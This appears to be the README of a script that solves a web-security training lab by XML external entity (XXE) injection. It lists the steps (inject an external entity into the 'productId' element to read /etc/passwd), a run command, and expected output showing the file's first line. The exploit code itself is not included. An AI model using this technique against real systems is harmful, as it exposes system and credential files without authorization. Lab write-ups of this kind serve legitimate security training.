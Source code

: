 # Hack Steps

1. Inject payload into 'productId' XML element to retrieve the content of /etc/passwd using an external entity
2. Extract the first line as a proof

# Run Script

1. Change the URL of the lab
2. Start script

```
~$ python exploiting_xxe_using_external_entities_to_retrieve_files.py
```

# Expected Output

```
⟪#⟫ Injection point: productId
⦗1⦘ Injecting payload to retrieve the content of /etc/passwd using an external entity.. OK
⦗2⦘ Extracting the first line as a proof.. OK => root:x:0:0:root:/root:/bin/bash
🗹 Check your browser, it should be marked now as solved
```

